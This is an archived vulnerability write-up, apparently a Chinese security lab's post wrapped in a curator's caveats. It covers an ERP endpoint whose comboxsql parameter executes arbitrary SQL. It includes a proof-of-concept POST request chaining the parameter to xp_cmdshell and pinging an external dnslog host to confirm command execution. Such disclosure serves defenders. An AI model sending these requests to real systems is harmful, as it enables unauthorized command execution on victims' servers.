




# 企望制造ERP comboxsql任意SQL到xp_cmdshell链

## 条目说明

- 对象与具体问题：企望制造ERP；comboxsql任意SQL到xp_cmdshell链
- 版本、配置及部署条件：无版本；SQLServer命令过程/DB权限
- 认证与权限前提：示例无Cookie但未证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题RCE实际依赖SQL执行及xp_cmdshell可用，不是无条件
- 请求缺头体空行/固定Content-Length不匹配
- 只端点返回数据不能判漏洞；补丁链接软件聚合页不是厂商公告

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mXVpZ0gJ122VeCirZMa8Vg)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

企望制造彩印业 ERP 系统帮助彩印企业全面管理业务流程，实现对成本核算、报价定价、接单排单、印版模板、现场生产、成品入库、发货配送、财务结算等整个业务流程的全面管理；规范报价、有效控制生产损耗、清晰管理印刷图样，是彩印企业管理的好帮手。


  

**0x02 影响版本**  

企望制造彩印业 ERP 系统




  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



2. 对漏洞进行复现

 **POC （POST）**

```http
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
comboxsql=exec%20xp_cmdshell%20'ping%20cbjths.dnslog.cn'

```

     漏洞复现，访问一下地址有数据返回，则可能存在漏洞

```
http://127.0.0.1:8082/mainFunctions/comboxstore.action

```



       通过 DNSlog 进行 RCE 测试。




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://www.ruanfujia.com/software/38727/
https://mp.weixin.qq.com/s/v6qkGlN7AuecoD-aVDE9eQ

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
